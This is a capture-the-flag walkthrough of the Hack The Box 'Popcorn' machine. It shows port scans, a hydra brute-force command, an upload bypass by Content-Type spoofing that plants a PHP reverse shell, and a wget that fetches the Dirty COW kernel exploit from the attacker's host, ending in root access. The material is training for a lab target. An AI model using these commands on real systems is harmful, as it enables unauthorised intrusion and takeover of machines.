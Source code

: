# Popcorn

URL: https://app.hackthebox.com/machines/Popcorn

Level: Medium

Date 27 Jun 2021

## Walkthrough

- [Enumeration](#enumeration)
- [User flag](#user-flag)
- [Privesc](#privesc)

# Enumeration

## NMAP

```
# Nmap 7.80 scan initiated Sun Jun 27 10:38:07 2021 as: nmap -p- -T4 -oN 01_nmap.txt 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sun Jun 27 10:38:33 2021 -- 1 IP address (1 host up) scanned in 26.69 seconds
```

```
# Nmap 7.80 scan initiated Sun Jun 27 10:39:24 2021 as: nmap -p22,80 -A -T4 -oN 02_nmap_withA.txt 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.17 - 2.6.36 (95%), Linux 2.6.32 (95%), AVM FRITZ!Box FON WLAN 7240 WAP (95%), Android 2.3.5 (Linux 2.6) (95%), Linux 2.4.20 (Red Hat 7.2) (95%), Linux 2.6.17 (95%), Canon imageRUNNER ADVANCE C3320i or C3325 copier (94%), Linux 2.6.30 (94%), Linux 2.6.35 (94%), Epson WF-2660 printer (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.59 ms 10.10.14.1
2   43.23 ms 10.10.10.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 27 10:39:38 2021 -- 1 IP address (1 host up) scanned in 14.98 seconds
```

We run `dirbuster` and we discover `/torrent` folder.

We capture our first attempt:

```
POST /torrent/login.php HTTP/1.1
Host: 10.10.10.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.6/torrent/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Cookie: /torrent/=; /torrent/index.php=; /torrent/torrents.php=; /torrent/login.php=; /torrent/torrents.phpfirsttimeload=1; PHPSESSID=4f6b28bd82717b32a62abde7b68df23a
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

So we can run bruteforce attack with `hydra`:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-form-post://10.10.10.6/torrent/login.php:username=^USER^&password=^PASS^:Invalid login" -v -V
```

We get no luck.

We simply register.

We try to upload a torrent file:

![10_test_upload_again_torrent](https://user-images.githubusercontent.com/42389836/156936604-44161082-4f75-4aba-af39-bdcdb148fd29.png)

We try to upload a simple PHP reverse shell but it failed.

After some try, we can assume that the only check is made on `Content-Type`.

So, we upload a basic PHP reverse shell (Pentestmonkey) and thanks to Burpsuite we change Content-Type to: `image/png`.

Now, we can browse to `/torrent/upload` and gain our shell:

```
root@kaligra:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.6] 42961
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 18:01:59 up 22:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$
$
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User-flag

We can easily grab user flag:

```
$ cd /home/
$ ls
george
$ cd george
$ ls
torrenthoster.zip
user.txt
$ cat user.txt
556b4aacd699043203716bea55e0b3b1
$
```

# Privesc

We upgrade our shell:

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@popcorn:/home/george$
```

We try dirtyc0w exploit:

```
$ wget http://10.10.14.7:8000/dirty.c
--2021-06-27 18:21:41--  http://10.10.14.7:8000/dirty.c
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/x-csrc]
Saving to: `dirty.c'

     0K ....                                                  100%  380M=0s

2021-06-27 18:21:41 (380 MB/s) - `dirty.c' saved [5006/5006]

```

We compile it:

```
$ gcc -pthread dirty.c -o dirty -lcrypt
```

and we run it:

```
$ ./dirty
Please enter the new password: mammete
```

Now we can access through SSH with user `firefart`:

```
joshua@kaligra:/opt/htb/Popcorn$ ssh firefart@10.10.10.6
firefart@10.10.10.6's password:
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Sun Jun 27 18:26:28 EEST 2021

  System load: 3.21              Memory usage: 17%   Processes:       126
  Usage of /:  7.6% of 14.80GB   Swap usage:   0%    Users logged in: 0

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Tue Oct 27 11:08:55 2020
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~# ls
root.txt
firefart@popcorn:~# cat root.txt
6a941efb2e826e2f3f98b7f6841fc505
```

